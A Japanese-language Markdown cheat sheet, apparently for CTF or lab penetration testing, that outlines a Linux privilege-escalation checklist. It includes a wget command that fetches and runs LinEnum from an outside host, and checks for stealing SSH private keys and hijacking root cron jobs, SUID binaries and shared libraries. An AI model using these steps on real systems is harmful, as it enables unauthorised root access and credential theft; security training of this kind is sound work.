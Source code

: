 # Linux Privilege Escalation Flow

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認
8. 機密ファイルのパーミッション確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh
cd /tmp && ./LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 他のユーザーは存在するか
- [ ] ディレクトリにアクセスできるか
- [ ] SSH 秘密鍵は取得できるか
- [ ] 手がかりとなるファイルは存在するか
- [ ] フラグとなるファイルは存在するか

## 4. Cron の確認
- [ ] Crontab に怪しいファイルは存在するか
- [ ] 指定方法はスクリプト名 or 絶対パス
- [ ] スクリプトは root 権限で実行されるか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

存在する場合...
### 4-1. 指定方法がスクリプト名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

### 4-2. 指定方法が絶対パスの場合
#### スクリプトの置き換え / 書き換え
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

#### スクリプト内容の確認
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合  
実行されているプログラム（コマンド）の確認
```
strings [FILE]
```

指定方法がコマンド名（絶対パスでない）の場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

指定方法が絶対パスの場合
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

※ 内部でワイルドカードが利用されている場合：[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%83%AF%E3%82%A4%E3%83%AB%E3%83%89%E3%82%AB%E3%83%BC%E3%83%891)

#### 読み込まれている共有ライブラリの確認
・環境変数 LD_LIBRARY_PATH が利用できる場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

・環境変数 LD_LIBRARY_PATH が利用できない場合: [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)  
読み込みエラーになっている共有ライブラリのうち、ディレクトリ、ファイルのいずれかに書き込み権限がないか確認。

- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

## 5. SUID / SGID の確認
- [ ] 既存の脆弱性（Exim <= 4.84-3 など）は存在するか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

・ディレクトリ、ファイルに書き込み権限がある場合  
共有オブジェクトの利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)

・内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合  
環境変数の利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

<!-- <dl>
  <dt>ディレクトリ、ファイルに書き込み権限がある場合</dt>
  <dd>共有オブジェクトの利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8">こちら</a></dd>
  <dt>内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合</dt>
  <dd>環境変数の利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0">こちら</a></dd>
</dl> 
-->

## 6. Bash のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%82%B7%E3%82%A7%E3%83%AB%E3%81%AE%E4%BB%95%E6%A7%98-1)

## 7. Sudo のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%83%90%E3%83%BC%E3%82%B8%E3%83%A7%E3%83%B3%E3%82%92%E7%A2%BA%E8%AA%8D)

## 8. 機密ファイルのパーミッション確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E6%A9%9F%E5%AF%86%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%81%AE%E3%83%91%E3%83%BC%E3%83%9F%E3%83%83%E3%82%B7%E3%83%A7%E3%83%B3%E7%A2%BA%E8%AA%8D)


